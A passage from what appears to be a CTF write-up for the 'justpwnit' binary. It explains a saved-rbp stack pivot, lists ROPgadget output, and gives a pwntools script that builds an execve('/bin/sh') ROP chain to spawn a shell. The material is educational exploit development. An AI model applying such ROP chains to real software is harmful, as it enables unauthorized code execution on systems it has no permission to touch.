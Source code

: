 The saved `$rbp` has been overwritten with a pointer to the user input. Then, at the end of the `set_element` function, `$rbp` is popped from the stack and contains a pointer to the user input. Which causes at the end of the `justpwnit` function, the `leave` instruction moves the pointer to the user input in `$rsp`.

## ROPchain

Once we can pivot the stack to makes it point to some user controlled areas, we just have to rop through all the gadgets we can find in the binary.
The binary is statically linked, and there is no system function in the binary, so we can't make a ret2system, we have to make a `execve("/bin/sh\0", NULL, NULL)`.

And so what we need is:
- pop rdi gadget
- pop rsi gadget
- pop rdx gadget
- pop rax gadget
- syscall gadget
- mov qword ptr [reg], reg [to write "/bin/sh\0"] in a writable area

We can easily find these gadgets with the help [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).
We got:

```
0x0000000000406c32 : mov qword ptr [rax], rsi ; ret
0x0000000000401001 : pop rax ; ret
0x00000000004019a3 : pop rsi ; ret
0x00000000004013e9 : syscall
0x0000000000403d23 : pop rdx ; ret
0x0000000000401b0d : pop rdi ; ret
```

Now we just have to craft the ropchain !

```py
POP_RDI = 0x0000000000401b0d
POP_RDX = 0x0000000000403d23
SYSCALL = 0x00000000004013e9
POP_RAX = 0x0000000000401001
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32
PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(MOV_RSI_PTR_RAX)
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(POP_RSI) + pwn.p64(0)
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)
pld += pwn.p64(SYSCALL)
```

